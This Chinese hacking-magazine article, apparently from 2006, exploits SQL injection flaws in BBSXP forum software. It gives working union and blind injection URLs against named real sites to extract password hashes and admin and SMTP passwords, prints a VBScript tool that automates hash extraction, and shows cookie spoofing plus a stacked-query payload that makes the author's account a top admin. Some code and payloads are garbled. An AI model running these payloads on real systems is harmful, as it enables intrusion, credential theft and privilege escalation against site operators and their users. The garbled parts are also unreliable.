WTF：BBSXP是国内普及率比较高的ASP论坛之一，很多个人网站、商业公司都采用它作为网站的论坛。但在安全方面，它的发展是坎坷的，5.00、5.00 sp1、5.00 sp2都被发现了SQL注入漏洞，官方也把版本升级到了5.15。是不是这个版本就是安全的呢？作者下载了一套最新版本的程序，并发现了不少的问题，本文也就是针对这些问题的分析和利用实例。

在文章发表之前，突然想起2004年圣诞节的时候臭要饭的送的“圣诞礼物”，那就是他发现直接获取BBSXP论坛WebShell的工具，到发刊时止，网上已经开始流传这个漏洞的景象。在征得他本人同意后，我们特别将他直接获取BBSXP论坛Shell的工具收录到了光盘，送给广大喜欢脚本漏洞的朋友，也算是一份礼物了。

适合读者：入侵爱好者、脚本程序员、站长、网管
前置知识 ASP代码阅读能力

#### BBSXP官方论坛的致命弱点

文/图 llikz 勇哥儿

最近BBSXP又火了起来，好多大型网站都开始采用这个论坛，所以对于它的漏洞发现自然也就多了起来。最近和勇哥聊起这个事，在一个偶然的情况下发现了BBSXP的几个漏洞，并写了相关的漏洞利用程序，今天借黑防公布给大家，并给出BBSXP官方网站的测试过程，希望大家喜欢。

这个漏洞相当明显，和5.00 sp1、sp2版本的漏洞差不多，注入的时候只要不用“'”号，直接构造Union查询就可以得到任何数据库中的信息。我们可以使用以下的代码测试：

```
/blog.asp?id=1 union select top 1 1,2,3,4,5,6,7 from [user] where membercode=5
```

看看返回结果，如图1所示。


#### BBSXP官方漏洞剖析

先说第一个漏洞吧，这个漏洞是BBSXP 5.15版本才存在的，只能影响到最新版本，官方也存在这个漏洞，漏洞存在于blog.asp中，我们先看看如下代码

```asp
<!--#include file="setup.asp" --><% 
username=HTMLEncode(Request("username")) 
id=HTMLEncode(Request("id")) 
top 
if id<>"" then 
sql="select * from [calendar] where id="&id&" order by id Desc" 
else 
sql="select * from [calendar] where (hide=0 or username='"&Request.Cookies("username")&"') and username='"&username&"' order by id Desc" 
end if 
rs.Open sql,Conn,1 
if rs.eof then error("<li>该用户暂时没有任何日志") 
%>
```

其中调用的HTMLEncode()函数如下：

```vbscript
function HTMLEncode(fString) 
fString=replace(fString,"'","&#59;") 
fString=replace(fString,"<","&lt;") 
fString=replace(fString,">","&gt;") 
fString=replace(fString,"\\","&#92;") 
fString=replace(fString,"—","&#45;&#45;") 
fString=replace(fString,"""","&39;") 
fString=replace(fString,CHR(34),"&quot;") 
fString=replace(fString,vbCrlf,"<br>") 
HTMLEncode=fString 
end function
```

大家看到没？只要我们选择数据库字段插入的位置，就可以在对应位置得到数据。比如我提交如下URL：

```
http://www.bbsxp.cn/bbs/blog.asp?id=1 union select top 1 1,userpass,3,4,5,6,7 from [user] where membercode=5
```

在原来显示2的地方显示了社区区长的加密码，如图2所示。

接着我们在官方论坛上尝试一下，提交：

```
http://bbs.yuzi.net/blog.asp?id=1 union select top 1 1,2,3,4,5,6,7 from [user] where membercode=5
```

返回的情况，如图3所示。
看来直接使用Union查询对官方论坛无效。根据HTMLEncode()对注入的字符的过滤，我们只要不是用


#### 图 2

#### 图 3

“< > 、; ;”等特殊字符,是可以对数据库进行查询的,好,我们这样提交:

> http://bbs.yuzi.net/blog.asp?id=1 and EXIST(select id from [user] where membercode=5 and deltopic=4 and ascii(right(userpass,32))=69)

其中membercode=5,deltopic=4是定位区长的;关于定位数据所需要的参数信息可以在论坛管理团队中查找。依次进行这样的猜解就可以得到yuzi的加密密码了。
虽然能成功,但是这种方法有点太烦琐了,32位加密的密码,手工破解要破到什么时候啊?更可气的是网上没有此类的利用程序,为了加快查询进度,我们编写如下代码(完整代码请看光盘code1.html):

```
<html><title>BBSXP论坛获取密码工具(勇哥哥制作)</title>
<body>
<p align="center"><b><font color="#000000">BBSXP论坛获取密码工具--ACCESS版<br>
</font></b><font color="#000000">o<font size="2">
漏洞发现者</font>/i></font><font size="2">;<i><b><font color="#000000">o勇哥哥/LLIKZ</i></font></b></i></font><br>
</p>
<form name="form3" method="post" >
<font size="2"> 输入网址: </font>
<input type="text" name="textfield1 access" size="35" value="http://www.bbsxp.cn/bbs/">
<font size="2">如 http://www.***.net/bbsxp/</font>
<input type="button" name="button1access" value="前台密码" >
<input type="button" name="button2access" value="后台密码" >
<input type="button" name="button3access" value="清除">
</form>
<script language="vbsript">
<!--
sub button1access_onclick
```

```
dim htm
set htm=document.form3
url="[/blog.asp?id=1 union select 1,1,userpass,username,1,1,1 from [user] where membercode=5]"
b=trim(htm.textfield1access.value)
url=b&url
if (b=="") then
MsgBox "输入网址为空!"
else
window.open(url)
end if
end sub
sub button2access_onclick
dim htm
set htm=document.form3
url="[/blog.asp?id=1 union select 1,2,adminpassword,clubname,5,6,7 from [clubconfig]"
b=trim(htm.textfield1access.value)
url=b&url
if (b=="") then
MsgBox "输入网址为空!"
else
window.open(url)
end if
end sub
sub button3access_onclick
document.form3.textfield1access.value=""
end sub
-->
</SCRIPT>
<p align="center"><b><font color="#000000">BBSXP论坛获取密码工具--MSSQL版<br>
</font></b><font color="#000000">o<font size="2">
漏洞发现者</font>/i></font><font size="2">;<i><b><font color="#000000">o勇哥哥/ LLIKZ</i></font></b></i></font><br>
</font></b></b></i></font></p>
<form name="form1" method="post" >
<p><font size="2"> 输入网址:
<input type="text" name="textfield1" size="35" value="http://bbs.yuzi.net">
<input type="button" name="button1" value="管理团队" />
<input type="button" name="button2" value="网络日志" />
<input type="button" name="button3" value="清空">
......
<br>
(用户等级: 5 社区区长, 4 管理员, 1 普通用户, 0 禁止用户)<br>
<br>
<input type="button" name="key1" value="第 01 位">
<input type="button" name="key2" value="第 02 位">
......
<input type="button" name="key31" value="第 31 位">
<input type="button" name="key32" value="第 32 位">
</font></p>
<font size="2">ASC 码: A=65 B=66 C=67 D=68
E=69 F=70 0=48 1=49 2=50 3=51 4=52 5=53
6=54 7=55 8=56 9=57<br>
```

在漏洞利用程序中点击管理团队按钮可以查看提供的6个参数值,如果参数不赋值则在查询语句中表示此参数不参与查询。如果想修改参数可以替换任何一个,如把deltopic=换成id=1,即查询id为1的语句。点击“第X位按钮”后,会打开16个页面,其中与网络日志相同的页面为正确页面,可根据对应ASC表查出字符。

### FIRST EXPLOIT

栏目编辑:wf(wf@hacker.com.cn

记录32位密码的代码(完整代码请看光盘code2.html)：

```
<input type="text" name="textfield12" size="8" maxlength="8">
......
<input type="text" name="textfield125" size="8" maxlength="8">
<br>
</font> <font size="2"> </font>
</form>
<script language="vbscript">
<!--
sub button1_onclick
dim htm
set htm=document.form1
url="/adminlist.asp"
b=trim(htm.textfield1.value)
url=b&url
if (b=="") then
MsgBox "输入网址为空!"
else
window.open(url)
end if
end sub
-->
sub button2_onclick
dim htm
set htm=document.form1
url="/blog.asp?id=1"
b=trim(htm.textfield1.value)
url=b&url
if (b=="") then
MsgBox "输入网址为空!"
else
window.open(url)
end if
end sub
sub button3_onclick
document.form1.textfield1.value=""
end sub
sub button4_onclick
......
document.form1.canshu6.value="delltopic='"
end sub
</script>
<script language="vbscript">
<!--
sub key1_onclick
call findkey(32)
end sub
......
sub key31_onclick
call findkey(2)
end sub
sub key32_onclick
call findkey(1)
end sub
-->
</script>
<script language="vbscript">
<!--
sub findkey(key)
dim htm
set htm=document.form1
```

```
if (trim(htm.textfield1.value)=="") then
MsgBox "输入网址为空!"
else
url=trim(htm.textfield1.value)&wangzhi()
Dim x
    For x = 65 To 70
window.open(url&"ascii(right(userpass,'&key&'")="&x&"')")
    Next
    For x = 48 To 57
window.open(url&"ascii(right(userpass,'&key&'")="&x&"')")
    Next
end if
End sub

function wangzhi()
......
</a> </font></font>
</body></html>
```

用浏览器打开,这就是一个简单的利用工具了, 如图4 所示。


图4

利用这个漏洞只能进行一般的查询查询操作,虽然 对于MSSQL数据库可以使用存储过程进行数据库更新, 但由于操作起来不利于新手,我就不讲解怎么利用了。
这个漏洞只能在最新版本使用,不具有通杀性,确 实有点遗憾,不过我给大家看一个通杀所有版本的漏 洞,兴奋起来吧!

#### 通杀BBSXP

Usertop.asp是BBSXP所有版本都存在的基本页面,代码如下:

```
<!-- #include file="setup.asp" -->
<% 
order=HTMLEncode(Request("order"))
top
%>
<table border=0 width=97% align=center cellspacing=1 cellpadding=4 class=a2>
<tr class=a3>
<td height=25>&nbsp; &nbsp; <%ClubTree()%> → 会员列表(TOP 500)</td>
</tr>
</table><br>
<center>
<SCRIPT>valign=top()</SCRIPT>
<TABLE cellSpacing=1 cellPadding=0 width=97% bor-
```

www.hacker.com.cn 2006 精华奉献本 下册

```
der=0 class=a2>
<TR align=middle id=TableTitleLink class=a1>
<TD height=25>用户名</TD>
<TD>短消息</TD>
<TD><a href="?order=regtime">注册时间</a></TD>
<TD><a href="?order=posttopic">发表文章</a></TD>
<TD><a href="?order=postrevert">回复文章</a></TD>
<TD><a href="?order=money">社区金币</a></TD>
<TD><a href="?order=experience">经验值</a></TD>
<TD><a href="?order=landtime">最后登录时间</a></TD>
<TD><a href="?order=degree">登录次数</a></TD>
</TR>
<% 
if order="" then order="experience" 
sql="select top 500 * from [user] order by '"&order&"' Desc "
rs.Open sql,Conn,1
```

显然Order变量前面也没有不闭合的引号，我们依然可以注入。这可是通杀所有版本的注入点啊，先给大家演示一下注入方法。

```
http://www.nttg.com.cn/bbsxp/usertop.asp?order=degree union select top 1 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33 from [user] where membercode=5 order by id
```

看返回结果，如图5所示。



在27的位置插入userpass，提交

```
http://www.nttg.com.cn/bbsxp/usertop.asp?order=degree union select top 1 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,userpass,28,29,30,31,32,33 from [user] where membercode=5 order by id
```

看返回结果，如图6所示。
测试成功，不过在官方论坛上同样不能使用Union查询，确实挺郁闷的。


看看返回了什么东西，如图7所示。


晕了？还有更厉害的呢！
2. 得到论坛发信的SMTP账号密码。

```
blog.asp?id=1 union select 1,mailserverpassword,1,1,4,5,1 from [clubconfig]
```

3. 得到后台管理密码。

```
blog.asp?id=1 union select 1,adminpassword,1,1,4,5,1 from [cluconfig]
```

还有很多其他查询，大家可以下载一个最新版本的论坛程序，根据数据库中的表和字段，自己定义查询语句，我就不罗嗦了。

对于版本低于5.15的程序，在利用以上的查询时会出错，原因是在联合查询中的列数不匹配，解决方法是你下一个你正在攻击的论坛版本，打开数据库看看[user]表里有多少字段就可以了。

#### 漏洞利用

利用以上的两个漏洞，对于Access版本的论坛，我们可以通过灵活使用Union查询，得到很多重要的信息，举例如下。
1. 得到所有用户的用户名和密码。

```
/bbsxp/blog.asp?id=1 union select 1,username,userpass,birthday,4,5,question from [user]
```

#### 对BBSXP官方论坛的测试

写到这里，该说说一个将BBSXP SQL所有版本送入“地狱”的漏洞了，由于此漏洞危害极大，大家请勿用此搞破坏。
其实这个漏洞在去年我看BBSXP代码的时候就发现了，只不过利用的时候需要一定的权限，所以就放弃了。现在条件正好，有了以上两个漏洞做基础，我们很

容易利用Cookie欺骗得到前台的管理员权限。

首先看看漏洞文件吧。在manage.asp中我们看看关于移动帖子的代码

```
<!-- #include file="setup.asp" -->
<%
if Request.Cookies("username")=empty then error2("请登录后再进行操作")
if Request.ServerVariables("request_method") <> "POST" then
    response.write "<form name=BBSxpPOST method=post action=manage.asp?"&Request.ServerVariables("Query_String")&""><br><SCRIPT>if(confirm(' 您确定要执行该操作?')){returnValue=BBSxpPOST.submit()}else{returnValue=history.back()}</SCRIPT>"
    htmlend
end if
top
id=int(Request("id"))
sql="Select * From [forum] where ID="&ID&""
rs.Open sql,Conn,1
forumid=rs("forumid")
ReList=rs("ReList")
rs.close
if membercode > 3 then
    pass=1
elseif instr("|"&Conn.Execute("Select moderated From [bbsconfig] where id='"&forumid&"'")(0)&"|","|"&Request.Cookies("username")&"|")>0 then
    pass=1
end if
if pass<>1 then error("<li>您的权限不够")
username=Conn.Execute("Select username From [forum] where id='"&id&"'")(0)
select case Request("menu")
```

代码首先判断我们是否登录，然后判断我们的membercode是不是大于3，如果是就继续执行。现在假设我们已经利用Cookie欺骗满足了这个条件，看看以下有什么操作：

```
case "move"
    if Request("moveid")="" then error("<li>您没有选择要将主题移动哪个论坛!")
    if Conn.Execute("Select pass From [bbsconfig] where id='"&Request("moveid")&"'")(0)=4 then error("<li>目标论坛为授权发帖状态!")
    conn.execute("update [forum] set forumid='"&Request("moveid")&"',topic=0,goodtopic=0,locktopic=0 where id='"&id&"'")
    succitle="移动主题成功"
```

哈，看到了吗？很明显的注入点，没有对moveid变量做任何过滤，这样我们就可以使用任何注入语句了。如果连接数据库的账号是SA，我们可以轻松拿到系统权限！

##### 1. 基本信息收集

这里我当然要以官方论坛http://bbs.yuzi.net演示我们入侵过程了，哈哈。先看看数据库用户，直接提交：
http://bbs.yuzi.net/blog.asp?id=1 and user>0
看返回结果如图9所示。

看来不是SA连接，这在意料之中。如果你觉得你很菜，那么直接使用NBSI2同样能得到这些信息，如图9


所示。

Microsoft OLE DB Provider for SQL Server 错误 '80040e07'
将 nvarchar 值 'puzzle' 转换成数据类型 int 时失败
/bbs/xy.asp, 行 14



数据库权限、当前库一目了然。既然是论坛程序，当前用户一定具有Update、Delete等权限，这是毋庸置疑的，也是我们的基础，后面将说到这一点。

##### 2. 破解前台管理员密码

好了，回到正题。我们要利用moveid进行注入，前提条件是必须要能进行Cookie欺骗，我们先来看看官方能不能进行Cookie欺骗，要是不行咱就白忙了！

首先要破解前台的管理员账号，我就使用自己开发的工具破解吧。运行界面如图10所示。



填上相关信息开始破解，如图11所示。


然后点击开始破解就可以了，大家就浪费点时间等

账号吧！如图12所示。



如果大家觉得这个工具不好用的话，可以使用勇哥儿开发的工具，界面如图13所示。



这个程序具有通用性，SQL版本的任何注册账号密码都可以破解。

对于Access数据库，如果你对Union查询不很熟悉的话，我建议直接使用工具，这可是专门开发的这个工具哦！如图14所示。



用它直接就可以读取数据库中的信息了。

##### 3. Cookie欺骗

上面我们说了如何成功地取得管理员账号密码，下面进行Cookie欺骗，我使用的是minibrowser。使用任意一个账号登录，然后在Cookies选项中把Userpass修改成破出来的密码，username填yuzi，看看结果，如图15所示。

哈哈，Cookie欺骗成功，下面我就可以利用moveid进行注入，对数据库进行任何操作。一个字，爽！

首先抓包，用任意账号登录论坛，然后提交：


```
http://bbs.yuzi.net/manage.asp?menu=move&id=444507&moveid=444507
```

其中moveid是自己定义的，但一定是论坛中存在的参数，如果出现以下情况，如图16所示。然后提示你没有权限进行操作。那就说明我们成功了。


看看WSE给我们抓到什么东西

```
POST /manage.asp?menu = move & id=444507&moveid=444507 HTTP/1.1
Accept: image/gif, image/x-xbitmap, image/jpeg, im-age/pjpeg, application/msword, application/x-shockwave-flash, */*
Referer: http://bbs.yuzi.net/manage.asp?menu=move&id=444507&moveid=444507
Accept-Language: zh-cn
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Win-dows NT 5.1)
Host: bbs.yuzi.net
Content-Length: 0
Connection: Keep-Alive
Cache-Control: no-cache
Cookie: skins=1; ASPSSESSIONIDACQQTCBD=HLCMPOICOABJBBHMMHNBAM; eremite=0; userpass=96E79218965EB72C92A549DD5A330112; username=llkz; online=2005%2D4%2D7+21%3A30%3A25; admin=0
```

修改Cookie中的username和userpass为社区区长，提升自己的账号为社区区长，使用如下的语句：

```
update [user] set membercode=5 where username='llkz'
```

这里需要注意，提交的"moveid=444507,update [user] set membercode=5 where username='llkz';--"一定要进行Unicode编码，要不会在提交的时候出错，编码后的URL是

### FIRST EXPLOIT

> 栏目编辑：)wtf/wtf@hacker.com.cn

```
moveid=444507;%3B%75%70%64%61%74%65%5B%75%73%65%72%5D%3D%73%65%74%20%75%73%65%72%6E%61%6D%65%3D%27%68%75%63%6B%73%72%6E%61%6D%65%27%3B%2D%2D
```

用NC提交上去，如图17所示。



返回如图18所示的信息。

